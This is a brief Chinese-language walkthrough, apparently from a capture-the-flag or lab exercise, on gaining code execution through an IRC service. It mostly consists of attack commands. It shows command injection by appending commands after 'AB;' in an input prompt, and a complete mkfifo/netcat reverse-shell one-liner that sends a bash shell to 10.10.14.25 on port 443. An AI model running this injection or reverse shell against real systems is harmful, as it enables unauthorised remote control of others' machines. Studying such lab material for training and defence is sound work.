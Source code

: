 Internet Relay Chat  ;  一种实时的多用户聊天协议

**HexChat:**
`sudo apt update && apt install -y hexchat`

**RCE EXP:**
`nc <IP> <IRC PORT>`
等待让我们输入 IP
```
AB; [Command]
AB; ping -c 4 <IP>
```
![](photos/Pasted%20image%2020240331212809.png)
反弹 shell:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.25 443 >/tmp/f
```

